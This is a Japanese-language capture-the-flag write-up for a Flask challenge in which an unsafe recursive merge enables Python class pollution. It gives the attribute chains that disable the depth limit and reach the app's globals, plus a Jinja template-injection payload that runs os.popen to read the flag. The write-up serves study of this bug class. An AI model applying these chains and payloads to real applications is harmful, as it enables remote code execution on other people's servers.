 # Personal Website

## 問題文

I heard my website isn't secure. I made it persistent by using a database so that I can recover it if something goes wrong.

## Writeup

### 解法1

脆弱性は以下の箇所にある。

```python
def merge_info(src, user, *, depth=0):
    if depth > 3:
        raise Exception("Reached maximum depth")
    for k, v in src.items():
        if hasattr(user, "__getitem__"):
            if user.get(k) and type(v) == dict:
                User.merge_info(v, user.get(k),depth=depth+1)
            else:
                user[k] = v
        elif hasattr(user, k) and type(v) == dict:
            User.merge_info(v, getattr(user, k),depth=depth+1)
        else:
            setattr(user, k, v)
```

このような再帰的なmergeは、Pythonの[Class Pollution](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.html)攻撃が成立する。この攻撃では、

```python
obj.__class__.__qualname__  = "foobar"
```
のようにクラスのメタ情報を変更したり、

```python
obj.__class__.__init__.__globals__["GLOBAL_VAR"] = "bizbaz"
```
のようにグローバル変数を変更することが可能な攻撃である。

ただし、深さ制限があるため、このままではできることが限られている。そこで、

```python
user.__class__.merge_info.__kwdefaults__["depth"] = -9999
```
のように`depth`が指定されなかった際の初期値を変え、深さ制限を実質無効化する。

これでグローバル変数を自由に変更できるようになる。`app.py`のグローバル変数は、

```python
user.__class__.__init__.__globals__["generate_password_hash"].__globals__["os"].sys.modules["app"].CONFIG_TEMPLATE
```
のようにアクセスできる。

これにより、テンプレートのパスを変更できるようになった。しかし、アプリケーションのディレクトリの外のファイルにアクセスすることはできない。幸い、`/app`ディレクトリには、`flask.log`というログファイルが生成されるため、もしこのファイルにFlaskのSSTIを含めることができれば、RCEが可能になる。

テンプレートのパスをSSTIのペイロードにすると、

```
jinja2.exceptions.TemplateNotFound: {{[].__class__.__class__.__subclasses__([].__class__.__class__)[0].register.__builtins__['__import__']('os').popen('/readflag').read()}}
```

のようなエラーを出力させることを利用できる。これをテンプレートとして読み込むことでRCEが成功する。

### 解法2

深さ制限の無効化までは解法1と同様。Class Pollutionが可能であるという条件で、[Jinjaに任意コード実行につながるガジェット](https://www.offensiveweb.com/docs/programming/python/class-pollution/#rce)がある。したがって、これをスクリプトキディすることでも解くことができる。

## Flag

`fwectf{placeholder_<dynamic>}`



